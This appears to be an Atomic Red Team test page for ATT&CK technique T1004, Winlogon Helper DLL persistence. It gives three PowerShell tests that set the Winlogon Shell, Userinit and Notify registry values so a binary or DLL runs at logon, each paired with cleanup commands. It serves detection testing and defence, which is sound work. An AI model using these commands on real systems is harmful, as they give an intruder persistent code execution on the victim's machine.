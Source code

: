 # T1004 - Winlogon Helper DLL

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1004)

<blockquote>Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete. Registry entries in <code>HKLM\Software\[Wow6432Node\]Microsoft\Windows NT\CurrentVersion\Winlogon\</code> and <code>HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> are used to manage additional helper programs and functionalities that support Winlogon. (Citation: Cylance Reg Persistence Sept 2013) 

Malicious modifications to these Registry keys may cause Winlogon to load and execute malicious DLLs and/or executables.
Specifically, the following subkeys have been known to be possibly vulnerable to abuse: (Citation: Cylance Reg
Persistence Sept 2013)

* Winlogon\Notify - points to notification package DLLs that handle Winlogon events
* Winlogon\Userinit - points to userinit.exe, the user initialization program executed when a user logs on
* Winlogon\Shell - points to explorer.exe, the system shell executed when a user logs on

Adversaries may take advantage of these features to repeatedly execute malicious code and establish
Persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell](#atomic-test-1---winlogon-shell-key-persistence---powershell)

- [Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell](#atomic-test-2---winlogon-userinit-key-persistence---powershell)

- [Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell](#atomic-test-3---winlogon-notify-key-logon-persistence---powershell)

<br/>

## Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell

PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!

```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell

PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!

```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell

PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon
logon/logoff.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | Path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" "logon" "#{binary_to_execute}" -Force
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```

<br/>
